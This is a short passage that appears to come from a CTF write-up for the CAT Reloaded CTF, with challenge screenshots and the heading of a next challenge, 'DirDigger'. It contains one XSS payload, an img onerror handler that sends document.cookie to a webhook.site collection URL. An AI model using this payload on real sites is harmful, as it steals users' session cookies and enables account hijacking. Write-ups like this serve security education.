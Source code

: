 XSS Payload: `<img src=x onerror=fetch("https://webhook.site/09c537c2-5f1c-4ae1-b4b5-245abf43a2c0/?cookie="+document.cookie)>`

![Challenge_2.4](/assets/images/ctf_writeups/CAT_Reloaded_CTF/Challenge_2.4.png)

![Challenge_2.2](/assets/images/ctf_writeups/CAT_Reloaded_CTF/Challenge_2.2.png)

## DirDigger
